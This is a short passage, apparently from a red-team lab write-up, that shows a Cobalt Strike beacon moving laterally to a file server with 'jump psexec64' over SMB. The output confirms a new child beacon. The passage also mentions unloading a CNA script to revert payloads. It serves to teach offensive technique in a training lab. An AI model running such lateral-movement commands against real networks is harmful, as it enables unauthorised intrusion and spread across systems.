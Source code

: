 
We should now be able to move laterally to the file server using PsExec.

beacon> jump psexec64 fs.dev.cyberbotic.io smb
Started service 96126c2 on fs.dev.cyberbotic.io

[+] established link to child beacon: 10.10.122.15


Simply unload the CNA from the Script Manager if you want to revert back to the default payloads.
